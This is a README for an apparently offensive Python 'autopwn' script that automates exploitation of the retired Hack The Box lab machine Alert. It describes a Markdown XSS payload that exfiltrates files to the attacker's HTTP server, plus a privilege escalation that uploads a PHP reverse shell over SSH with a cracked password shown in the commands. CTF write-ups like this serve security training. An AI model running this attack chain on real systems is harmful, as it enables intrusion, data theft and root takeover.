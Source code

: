 # 🧨 HTB - Alert AutoPwn Script

This script fully automates the exploitation of the retired Hack The Box machine **Alert**, including both **initial intrusion** and **privilege escalation to root**. It leverages a Markdown-based XSS, a local HTTP server, and a PHP reverse shell.

---
## 📋 Description

The script operates in two attack phases, selectable via `--type-attack`:

1. `intrusion`: Uploads a malicious `.md` file containing JavaScript to extract files from the target via XSS.
2. `privesc`: Uses valid SSH credentials for user `albert`, deploys a malicious `shell.php`, and spawns a reverse shell as root.

---
## 🧠 Requirements

- Python 3.x
- `sshpass` and `netcat` (`nc`) installed
- HTB VPN connection active
- Known password for `albert` (retrieved by cracking a hash)

---
## ⚙️ Usage

### 🐞 Phase 1 - XSS Intrusion

Starts an HTTP server to receive exfiltrated data from the vulnerable application:

```bash
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000
```

Arguments:
- `--ip`	Your VPN IP to receive the HTTP request
- `--port`	Listening port for HTTP server (default: 8000)
- `--url`	Target base URL (default: http://alert.htb)

### ⚔️ Phase 2 - Privilege Escalation

Once you have cracked albert's password, use this phase to gain a root shell:
```bash
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --port 4444 --ssh-pass manchesterunited
```
Additional Arguments:
- `--ssh-pass`	Password for albert (required for privesc)
- `--ip-victim`	Victim IP address (default: 10.10.11.44)

The script will upload and execute shell.php over SSH and open a listener for the root reverse shell.

### 🧪 Full Attack Flow

```bash
# Step 1: XSS intrusion and file exfiltration
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000

# Step 2: After cracking albert’s hash...
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --port 4444 --ssh-pass manchesterunited
```
### 🛠️ Features

    ✅ Clean menu with per-phase argument validation
    ✅ Dynamic JS and PHP payload generation (base64-encoded)
    ✅ SSH automation with sshpass (no user interaction)
    ✅ Reverse shell with nc listener spawned from Python
    ✅ Optional port forwarding functionality built-in (not used in default setup)